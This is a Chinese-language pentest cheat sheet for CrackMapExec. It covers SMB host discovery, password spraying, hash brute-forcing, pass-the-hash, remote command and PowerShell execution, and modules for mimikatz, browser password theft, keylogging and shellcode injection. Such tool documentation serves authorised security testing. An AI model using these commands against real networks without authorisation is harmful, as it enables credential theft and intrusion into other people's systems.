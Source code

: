  #### 信息收集
	返回活动主机
	>crackmapexec smb 192.168.0.0/24
![image](/assets/Pentest_Note/master/img/252.png)
 #### 爆破
	支持协议ssh,smb,winrm,mssql,http
	爆破smb协议，两台机器，一个用户名多个密码
	>crackmapexec smb 192.168.0.98 192.168.0.55 -u username1 -p password1 password2
	>crackmapexec smb 192.168.0.0/24 -d zone.com -u y -p 'password' --shares
![image](/assets/Pentest_Note/master/img/253.png)

	密码喷射
	>crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
	指定字典
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -p /tmp/pass.txt
	Hash爆破
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -H /tmp/ntlm.txt
 #### 可用模块
	日志的保存位置
	~/.cme/logs
	查看协议可用后续模块
	>crackmapexec smb -L
![image](/assets/Pentest_Note/master/img/254.png)

	常用的模块
	Get-ComputerDetails获取计算机信息
	Bloodhound 执行一个BloodHound脚本获取信息
	empire_exec 与empire交互
	enum_avproducts 列举AV产品
	enum_chrome 获取目标chrome中保存的密码
	get_keystrokes 键盘记录
	get_netdomaincontroller 列出所有域控制器
	get_netrdpsession 列出活动的RDP会话
	gpp_autologin 从域控中registry.xml查找自动登录的账户密码
	gpp_password 组策略凭据中返回GPP密码
	invoke_sessiongopher 保存putty,winscp,filezilla,superputty rdp的session
	invoke_vnc 注入一个vnc客户端到内存
	met_inject 与msf交互
	mimikatz 调用mimikatz模块
	mimikatz_enum_chrome 使用mimikatz解密chrome保存的密码
	mimikatz_enum_vault_creds 解密windows凭据管理器中保存的密码
	mimikittenz 执行咪咪猫(windows密码获取软件)
	multirdp 允许多用户登录RDP
	netripper 通过API hooking截取平常
	pe_inject DLL/EXE注入
	rdp 开启或关闭RDP
	shellcode_inject 注入shellcode
	tokens 列举可用token
	uac 查看UAC是否开启
	wdigest 开启或关闭wdigest
	web_delivery 执行exploit/multi/script/web_delivery模块
	查看模块的选项
	>crackmapexec smb -M module --options
![image](/assets/Pentest_Note/master/img/255.png)

	使用方式
	>crackmapexec smb <target(s)> -u user -p 'P@ssw0rd' -M module -o 参数=值
![image](/assets/Pentest_Note/master/img/256.png)
 #### PTH
	>crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
	>crackmapexec smb <target(s)> -u username -H NTHASH
 #### 执行命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -x 'command'
![image](/assets/Pentest_Note/master/img/257.png)

	-X执行powershell命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -X 'POWESHELL'